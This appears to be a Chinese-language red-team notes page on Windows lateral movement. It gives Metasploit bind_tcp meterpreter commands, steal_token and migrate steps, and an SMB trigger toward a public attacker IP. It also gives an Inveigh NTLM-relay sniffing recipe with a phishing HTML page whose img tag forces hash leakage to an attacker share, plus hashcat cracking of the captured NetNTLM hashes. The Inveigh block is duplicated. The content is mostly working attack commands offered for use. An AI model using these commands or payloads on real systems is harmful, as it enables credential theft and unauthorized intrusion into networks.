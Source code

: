 ~~~
//因为不出网，所以设置成正向连接
set payload windows/meterpreter/bind_tcp
set rhost 192.168.52.138 //设置连接目标
run

//然后在出网的机器执行dir \\129.226.92.29\c$，就会在msf上上线  129.226.92.29是公网的攻击机器
ps
steal_token 1396   migrate 1396
dir \\129.226.92.29\c$

===============================================================

#横向移动-NTLM中继攻击-Inveigh嗅探-Hash破解
条件：被控主机当前管理员权限
Responder中继攻击-NTLM Hash破解
https://github.com/hashcat/hashcat/
https://github.com/Kevin-Robertson/Inveigh
1、监听拦截
Inveigh.exe
获取到的是NET NTLM HASH V1或V2
2、触发拦截
dir \\192.168.3.x\c$
2.1、钓鱼触发
http://192.168.3.31/1.html
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
  <img src="file:///\\192.168.3.32\2">
</body>
</html>
3、破解密文
hashcat -m 5600 hash pass.txt --show

~~~



#### NTLM Inveigh嗅探



~~~
#横向移动-NTLM中继攻击-Inveigh嗅探-Hash破解
条件：被控主机当前管理员权限
Responder中继攻击-NTLM Hash破解
https://github.com/hashcat/hashcat/
https://github.com/Kevin-Robertson/Inveigh
1、监听拦截
Inveigh.exe
获取到的是NET NTLM HASH V1或V2
2、触发拦截
dir \\192.168.3.x\c$
2.1、钓鱼触发
http://192.168.3.31/1.html
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
  <img src="file:///\\192.168.3.32\2">
</body>
~~~